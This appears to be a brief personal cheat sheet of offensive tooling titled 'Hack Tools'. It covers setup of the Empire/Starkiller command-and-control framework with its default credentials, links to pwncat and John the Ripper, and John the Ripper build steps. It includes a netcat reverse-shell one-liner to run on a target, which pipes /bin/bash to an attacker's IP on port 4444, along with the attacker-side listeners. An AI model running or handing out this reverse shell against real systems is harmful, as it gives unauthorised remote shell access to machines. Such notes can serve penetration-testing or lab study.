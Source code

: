 # Hack Tools
#### Empire & Starkiller
```
https://github.com/BC-SECURITY/Empire
```
```
https://github.com/BC-SECURITY/Starkiller
```
1- installing starkiller
2- installing Empire
3- setting up starkiller
  - cd empire
  - sudo ./empire --rest
  - cd ..
  - sudo ./starkiller.AppImage --no-sandbox
4- login to starkiller
  - uri: 127.0.0.1:1337
  - user: empireadmin
  - pass: password123
#### nc reverce
on target
```
rm /tmp/f; mkfifo /tmp/f; nc $ip 4444 0</tmp/f | /bin/bash >/tmp/f 2>$1
```
on attacker use pwncat Johnhammond
```
python -m pwncat -lp 4444
```
or only nc
```
nc -lnvp 4444
```
#### pwncat by John Hammond
https://github.com/calebstewart/pwncat


#### Just cool chat sv
https://rosettacode.org/wiki/Chat_server#Python

#### John The Ripper - om mac

https://github.com/magnumripper/JohnTheRipper

https://gist.github.com/reggi/2faadedd925789a3d25196f2a036ecc6
```
brew install openssl
brew link openssl --force

git clone https://github.com/magnumripper/JohnTheRipper jumbo
cd jumbo/src
./configure
make clean && make -s

pip install bsddb3
```
